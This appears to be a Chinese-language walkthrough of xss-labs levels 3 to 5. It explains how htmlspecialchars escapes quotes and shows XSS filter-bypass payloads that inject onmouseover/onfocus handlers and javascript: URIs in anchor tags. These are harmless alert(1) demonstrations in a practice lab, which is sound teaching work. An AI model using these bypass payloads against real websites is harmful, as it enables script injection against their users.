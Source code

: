 ### level3~9(字符过滤绕过)

**level3**  
注：php8.1.0及其以上版本已经修复
`htmlspecialchars`函数，把预定义的字符转换为 HTML 实体
1. &：转换为&amp;
2. "：转换为&quot;
3. '：转换为成为 '
4. <：转换为&lt;
5. '>：转换为&gt;

语法`htmlspecialchars(string,flags,character-set,double_encode)`
+ string：必需，规定要转换的字符串
+ flags ：可选，规定如何处理引号、无效的编码以及使用哪种文档类型
+ character-set ：可选，一个规定了要使用的字符集的字符串，如：UTF-8（默认）
+ double_encode ：可选，布尔值，规定了是否编码已存在的 HTML 实体。

flags参数可用的引号类型

+ ENT_COMPAT ：默认仅编码双引号。
+ ENT_QUOTES：编码双引号和单引号。
+ ENT_NOQUOTES：不编码任何引号。
注：xss-lab中有些关卡可以利用单引号绕过是因为flags参数默认只编码双引号

double_encode参数布尔值

+ TRUE：默认，将对每个实体进行转换。
+ FALSE：不会对已存在的 HTML 实体进行编码。

这里靶场用的是`htmlspecialchars($str)`，尝试输入pyload，发现
`<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/script&gt;相关的结果.</h2><center>`，然而，可以发现这里 value 的值用的是单引号。既然单引号不会被转义，我们可以闭合 value 这个字符串。

但是，`<>` 都会被转义，似乎不能闭合这个标签。有什么办法能够不用 `<script>` 标签来注入 JavaScript 代码呢？答案是使用触发器，比如 `onfocus` 或者 `onmouseover`。

`javascript:alert(1)` 使用了java伪协议，就是把`javascript:` 后面的代码当JavaScript来执行
` onmouseover=javascript:alert(1) `
` onfocus=javascript:alert(1) `

**level4**  
payload打进去，回显`<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/scrpit&gt;相关的结果.</h2><center>`
把`<`给过滤了，双引号没过滤，把上一个代码改一下扔进去试试，合理
`" onmouseover=javascript:alert(1) "`

**level5**  
老规矩，输入payload，返回`<h2 align=center>没有找到和&lt;script&gt;alert(1)&lt;/scrpit&gt;相关的结果.</h2><center>`，
而且输入框中变成了`<scr_ipt>alert(1)</scrpit>`，
输入`">" onmouseover=javascript:alert(1) "`，发现变成`" o_nmouseover=javascript:alert(1) ""> `

正确思路是可以利用 JavaScript 的 URI
`<a href=javascript:alert(1)>hack</a>`

`<a>`标签后面的href不一定非要跟url，还可以是URI，可以视为 URL 的超集，后面跟`javascript`就可以执行后面的内容，`mailto`就会去打开邮件去发信息，所以可以借助这个运行js代码
`"> <a href=javascript:alert(1)>hack</a>`
